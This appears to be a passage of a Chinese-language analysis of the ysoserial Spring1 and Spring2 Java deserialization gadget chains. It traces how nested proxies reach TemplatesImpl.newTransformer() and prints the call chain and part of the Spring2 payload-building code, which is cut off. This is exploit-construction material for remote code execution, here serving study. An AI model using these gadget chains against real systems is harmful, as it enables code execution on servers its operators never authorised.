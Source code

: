 ```java
return method.invoke(this.objectFactory.getObject(), args); 
```

那么这里的`objectFactory` 的值是什么？

根据 payload 中的生成代码

```java
final Object templates = Gadgets.createTemplatesImpl(command);

final ObjectFactory objectFactoryProxy =
        Gadgets.createMemoitizedProxy(Gadgets.createMap("getObject", templates), ObjectFactory.class);
```

值为 `objectFactoryProxy` ，也是一个代理对象，根据 `AnnotationInvocationHandler` 的特性，`objectFactory.getObject()`  的返回值为 `templates`，即最终调用的是 `TemplatesImpl` 的 `newTransformer()` 方法，触发恶意代码执行

整理一下关系

- `MethodInvokeTypeProvider.provider` => `typeProviderProxy`
- `typeProviderProxy.getType()` =>  `AnnotationInvocationHandler.invoke()`  => `typeTemplatesProxy`
- `typeTemplatesProxy.newTransformer()` => `ObjectFactoryDelegatingInvocationHandler.invoke()`
- `ObjectFactoryDelegatingInvocationHandler.objectFactory.getObject()` =>  `AnnotationInvocationHandler.invoke()`  => `TemplatesImpl`

精简的 Gadget chain 如下

```java
SerializableTypeWrapper.MethodInvokeTypeProvider.readObject()
    SerializableTypeWrapper.TypeProvider(Proxy).getType()
      AnnotationInvocationHandler.invoke()                      
    SerializableTypeWrapper.TypeProvider(Proxy).getType()
      AnnotationInvocationHandler.invoke()
    ReflectionUtils.invokeMethod()
      Templates(Proxy).newTransformer()
        AutowireUtils.ObjectFactoryDelegatingInvocationHandler.invoke()
          ObjectFactory(Proxy).getObject()
            AnnotationInvocationHandler.invoke()
          TemplatesImpl.newTransformer()
```



# Spring2

payload 生成代码如下

```java
public Object getObject ( final String command ) throws Exception {

    final Object templates = Gadgets.createTemplatesImpl(command);
    // 将 AdvisedSupport 的 target 属性值设置为 templates
    // AdvisedSupport 是 Spring AOP 的代理配置 managaer
    AdvisedSupport as = new AdvisedSupport();
    as.setTargetSource(new SingletonTargetSource(templates));
    // 使用 JdkDynamicAopProxy(实现了InvocationHandler接口) 来创建 Type 和 Templates 接口的动态代理
    // JdkDynamicAopProxy 的 advised 属性值为 as
    final Type typeTemplatesProxy = Gadgets.createProxy(
        (InvocationHandler) Reflections.getFirstCtor("org.springframework.aop.framework.JdkDynamicAopProxy").newInstance(as),
        Type.class,
        Templates.class);

    final Object typeProviderProxy = Gadgets.createMemoitizedProxy(
        Gadgets.createMap("getType", typeTemplatesProxy),
        forName("org.springframework.core.SerializableTypeWrapper$TypeProvider"));

```